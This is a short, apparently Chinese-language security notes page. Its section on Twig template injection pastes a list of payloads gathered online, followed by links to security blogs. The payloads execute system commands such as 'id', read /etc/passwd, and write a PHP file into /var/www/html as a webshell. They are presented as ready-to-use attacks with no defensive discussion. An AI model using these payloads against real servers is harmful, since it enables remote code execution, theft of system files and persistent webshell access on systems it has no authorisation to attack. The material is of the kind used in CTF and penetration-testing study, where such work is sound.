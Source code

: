 0x04 Twing 模板注入
---------------

没怎么研究过直接贴几个网上的 payload

1. 常用 payload

```
//RCE
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
{{["id"]|map("system")|join(",")
{{["id", 0]|sort("system")|join(",")}}
{{["id"]|filter("system")|join(",")}}
{{[0, 0]|reduce("system", "id")|join(",")}}
POST /subscribe?0=cat+/etc/passwd HTTP/1.1
{{app.request.query.filter(0,0,1024,{'options':'system'})}}
//读写文件
{{{"<?php phpinfo();":"/var/www/html/shell.php"}|map("file_put_contents")}}
{{'/etc/passwd'|file_excerpt(1,30)}}
{{app.request.files.get(1).__construct('/etc/passwd','')}}
{{app.request.files.get(1).openFile.fread(99)}}
```

0x05 学习博客
---------

```
https://www.leavesongs.com/
https://www.gem-love.com/
https://evoa.me/
https://www.zhaoj.in/
```

这里也有许多干货哦  

公众号